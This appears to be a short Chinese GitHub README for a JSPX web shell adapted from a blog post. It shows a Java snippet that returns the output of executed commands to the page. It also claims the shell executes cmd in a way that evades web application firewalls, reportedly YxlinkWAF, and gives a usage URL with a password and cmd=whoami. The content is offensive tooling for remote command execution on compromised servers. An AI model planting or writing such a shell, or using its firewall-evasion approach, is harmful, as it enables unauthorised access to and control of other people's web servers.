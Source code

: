 ## 来源
参考了Sevck大佬的文章：https://www.cnblogs.com/sevck/p/7069251.html
前辈NB！！！
我干了啥呢？我只是加了输出（大佬的那个直接执行没输出）。。。

添加输出的部分：
```
InputStream in = pro.getInputStream();
BufferedReader br = new BufferedReader(new InputStreamReader(in));
String lineStr;
while ((lineStr = br.readLine()) != null) {
	out.print(lineStr);
    out.print("\n");
}
```
## 用途
jsp被waf拦截的情况下，有时候可以上jspx，但是waf同样会检测内容，像Runtime.getRuntime().exec()经常被杀，这里只能换种方式去执行cmd，亲测可以绕过YxlinkWAF，别的暂时没试。
后续可以加上参数加密什么的。

## 使用方法：
> http://xxx/xx.jspx?pwd=sevck&cmd=whoami

